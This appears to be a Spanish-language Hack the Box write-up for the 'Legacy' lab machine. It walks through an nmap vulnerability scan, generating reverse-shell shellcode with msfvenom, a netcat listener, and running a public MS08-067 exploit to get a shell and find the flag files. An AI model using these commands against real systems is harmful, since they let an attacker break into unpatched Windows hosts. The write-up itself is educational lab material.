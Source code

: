 ```yaml
---
layout: single
title: Legacy - Hack the Box (Español)
date: 2021-05-10
classes: wide
header:
  teaser: /assets/images/legacy-writeup/legacy_logo.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - HTB
  - SMB vulnerability
---
```


# Solucion de la maquina Legacy de Hack the Box



escaneo de puertos :

```
> nmap -Pn --top-ports 1000 10.10.10.4

PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server
```



Intentamos con los scripts de nmap para identificar vulnerabilidades en smb :

```
> nmap -Pn --script vuln -p445 10.10.10.4 

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
```

Puedo usar ms17-010 pero decido usar ms08-067, utilice este exploit (https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py).

En caso no desee usar este por ser mas complejo que el de metasploit es libre de usar el de metasploit el resultado es el mismo.

Ahora cree mi reverse shell con este payload :

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

la salida la colocamos dentro del exploit en python.

Iniciamos un oyente con :

```
sudo nc -lvnp 443
```

Ahora el unico problema del exploit seria que tenemos que adivinar cual es la version del sistema intentando del 1 al 7, yo utilize la numero 6 :

```
python ms08-067.py 10.10.10.4 6 445

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```

Con esto ya recibiriamos una conexion en nuestro oyente y ya solo tendriamos que buscar las flags :

```
C:\Documents and Settings>dir /s "user.txt"
dir /s "user.txt"
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings\john\Desktop

16/03/2017  08:19                 32 user.txt

C:\Documents and Settings>dir /s "root.txt"
dir /s "root.txt"
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings\Administrator\Desktop

16/03/2017  08:18                 32 root.txt
```




